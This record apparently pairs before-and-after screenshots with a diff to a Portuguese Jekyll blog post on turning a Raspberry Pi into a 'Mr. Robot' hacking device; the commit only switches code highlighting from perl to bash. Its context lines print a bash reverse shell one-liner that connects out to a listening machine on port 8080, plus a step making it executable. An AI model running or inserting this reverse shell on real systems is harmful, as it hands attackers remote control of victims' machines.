

Before and after one commit to MatheusAvellar/grisufrj.github.io, a Jekyll site: the page built from _posts/2016-11-07-Mr-robot-raspberry-Pi.md, in a window 1280 px wide and 900 px high, scrolled down 1262 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
mr robot --fixed

```diff
--- a/_posts/2016-11-07-Mr-robot-raspberry-Pi.md
+++ b/_posts/2016-11-07-Mr-robot-raspberry-Pi.md
@@ -18,7 +18,7 @@ A publicação sobre como criar um raspberry para hacking não é exetamente igu
 
 2. Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey.
 
-{% highlight perl%}
+{% highlight bash%}
 {% raw %}
 bash -i >& /dev/tcp/\<ip da maquina que está escutando\>/8080 0>&1
 {% endraw %}
@@ -26,7 +26,7 @@ bash -i >& /dev/tcp/\<ip da maquina que está escutando\>/8080 0>&1
 
 Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:
 
-{% highlight perl %}
+{% highlight bash%}
 {% raw %}
 chmod +x reverse
 {% endraw %}
```
